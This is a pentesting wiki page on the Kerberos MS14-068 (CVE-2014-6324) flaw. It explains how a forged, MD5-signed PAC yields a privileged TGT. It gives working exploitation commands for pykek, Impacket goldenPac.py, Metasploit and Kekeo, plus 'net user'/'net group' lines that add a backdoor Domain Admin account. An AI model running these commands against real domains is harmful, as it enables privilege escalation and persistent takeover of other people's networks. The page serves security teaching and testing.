 ```yaml
---
description: CVE-2014-6324
---
```


# MS14-068

## Theory

This vulnerability allows attackers to forge a TGT with high privileges (i.e. with a modified PAC stating the user is a member of privileged groups). This attack is similar to the [Golden ticket](golden.md), however, it doesn't require the attacker to know the `krbtgt`. This attack is a really powerful privilege escalation technique, however, it relies on a 2014 bug and will not work on patched domain controllers.

This vulnerability is possible due to a misvalidation of the PAC signature, allowing to craft a PAC granting powerful rights to a user while still being legitimate in the eyes of the KDC(Key Distribution Center). Contrary to what Microsoft doc states [here](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-pac/6e95edd3-af93-41d4-8303-6c7955297315?redirectedfrom=MSDN), there are more than three `SignatureTypes` accepted by the KDC : before MS14-068 patch, a signature was considered valid by `KdcVerifyPacSignature` if its size was <= 20 bytes. Therefore, it was possible to sign a PAC with a non-keyed hashing algorithm such as MD5 and have this PAC be considered valid.

{% hint style="info" %}
A non-keyed algorithm is a type of encryption that does not use a key to encrypt or decrypt the data. It uses instead a fixed algorithm, which makes it much less secure than a keyed algorithm. Non-keyed algorithms are usually easier to crack or break because they do not have the added security of a key to protect the data.
{% endhint %}

The exploitation goes as follow:

1. A PAC-less TGT is obtained via an AS-REQ with the `PA-PAC-REQUEST` attribute set to false. This will be used in a later step.
2. A PAC indicating an account membership to powerful groups in the domain is forged and "signed" with MD5 (or any other non-keyed algorithm listed [here](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-kile/c6dabc82-0792-4475-a44e-ae9b640d2613)).
3. A TGS-REQ message, requesting a service ticket targeting the KRBTGT service (i.e. a TGT-like) is sent to the vulnerable KDC, using the forged PAC from step (2) encrypted with a sub-session key (usually the session key) and included in the TGT from step (1).
4. In response to step (3), a new TGT containing the forged PAC will be received from the vulnerable KDC after its validation of the forged PAC (the vulnerability happens here).

The newly obtained TGT can be use like a [golden ticket](golden.md), with [pass-the-ticket](../ptt.md), to perform privileged various actions.

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
{% hint style="info" %}
Referring to [kekeo](https://github.com/gentilkiwi/kekeo/wiki/ms14068)'s wiki might help untangle some situations but errors like `KDC_ERR_SUMTYPE_NOSUPP (15)` or `KRB_ERR_GENERIC (60)` when trying to use the generated `.ccache` ticket should mean the target is patched.
{% endhint %}

#### PyKEK

This attack can be operated with [pykek](https://github.com/mubix/pykek)'s [ms14-068](https://github.com/mubix/pykek/blob/master/ms14-068.py) Python script. The script can carry out the attack with a cleartext password or with [pass-the-hash](../ptt.md).

In order to operate the attack, knowing a domain account’s name, its password (or hash) and its SID are needed.

A TGT can then be obtained with one of the following commands.

```bash
# with a plaintext password
ms14-068.py -u 'BASICUSER'@'DOMAIN_FQDN' -p 'PASSWORD' -s 'BASICUSER_SID' -d 'DOMAIN_CONTROLLER'

# with pass-the-hash
ms14-068.py -u 'BASICUSER'@'DOMAIN_FQDN' --rc4 'NThash' -s 'BASICUSER_SID' -d 'DOMAIN_CONTROLLER'
```

Once the `.ccache` TGT is obtained, if the attack is successful, the ticket will be usable with \[pass-the-ticket]\(. An easy way to check if the TGT works is to use it and ask for a service ticket. This can be done with Impacket's [getST.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py) (Python).

```bash
getST.py -k -no-pass -spn 'any_valid_spn' $DOMAIN_FQDN/$USER
```

This step will only make sure the TGT works though. It will not indicate for sure that the attack worked. This is because a patched DC could ignore the forged PAC and include a legitimate PAC instead. But the TGT would still be valid. It would simply be "unprivileged". Trying to use the service ticket for a privileged taks, [DCSync](../../credentials/dumping/dcsync.md) for instance, is advised.

{% hint style="info" %}
Another way of knowing, for sure, if the target DC is patched or not is to decrypt the ticket obtained with [describeTicket.py](https://github.com/fortra/impacket/pull/1201) and make sure the PAC features the privileged groups (512, 518, 519, 520). If the privileged groups are missing, it means the DC is patched and the forged PAC was ignored and replaced with a legitimate one. Knowing the krbtgt key is needed, so this would best fit a whitebox audit scenario (or successful pentest).
{% endhint %}

{% hint style="warning" %}
In some scenarios, I personally have had trouble using the `.ccache` ticket on UNIX-like systems. What I did was [convert it](../ptt.md#practice) to `.kirbi`, switch to a Windows system, inject the ticket with mimikatz's using[`kerberos:ptt`](https://tools.thehacker.recipes/mimikatz/modules/kerberos/ptt) command, and then create a new user and add it to the domain admins group.

```bash
net user "hacker" "132Pentest!!!" /domain /add
net group "Domain Admins" /domain /add
```
{% endhint %}

#### Impacket (goldenPac.py)

The attack can also be carried out automatically using Impacket's [goldenPac.py](https://github.com/fortra/impacket/blob/master/examples/goldenPac.py) (Python). This tool conducts the attack and tries to open a privileged session using the obtained TGT and PsExec. The TGT can be stored locally with the `-w path` parameter.

```bash
goldenPac.py $DOMAIN_FQDN/$USER:$PASSWORD@$DC_FQDN -dc-ip $DC_IP
```

#### Metasploit Framework

The Metasploit Framework can also be useful in the sense that it prints valuable error information.

```bash
msf6 > use admin/kerberos/ms14_068_kerberos_checksum
```
{% endtab %}

{% tab title="Windows" %}
#### Kekeo

Prerequisite : Build ms14068.exe following [kekeo's documentation](https://github.com/gentilkiwi/kekeo#readme).

```batch
# NB : ms14068.exe can act in two ways
# /ticket : Write the obtained ticket on disk with default name tgt.kirbi
# /ptt : Pass-the-ticket by directly injecting the obtained TGT into LSA

# with password
# domain SID and user RID are automaticaly discovered
ms14068.exe /domain:$domain /user:$user /password:$password /kdc:$VULN_KDC_FQDN

# with an NT hash
# AES-128 and AES-256 keys are also usable with /aes128 and /aes256 respectively
# note that automatic discovery of the user SID is not possible when using hash 
ms14068.exe /domain:$domain /user:$user /key:$krbtgt_NThash /sid:$DomainSID /rid:$userRelativeID /kdc:$KDC_FQDN
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://labs.withsecure.com/publications/digging-into-ms14-068-exploitation-and-defence" %}

{% embed url="https://ruuand.github.io/MS14-068/" %}

{% embed url="https://adsecurity.org/?p=525" %}

{% embed url="https://adsecurity.org/?p=541" %}

{% embed url="https://www.beyondtrust.com/blog/entry/a-quick-look-at-ms14-068" %}

{% embed url="https://github.com/gentilkiwi/kekeo/wiki/ms14068" %}

{% hint style="info" %}
Parts of this page were written with the help of the [ChatGPT](https://openai.com/blog/chatgpt/) AI model.
{% endhint %}
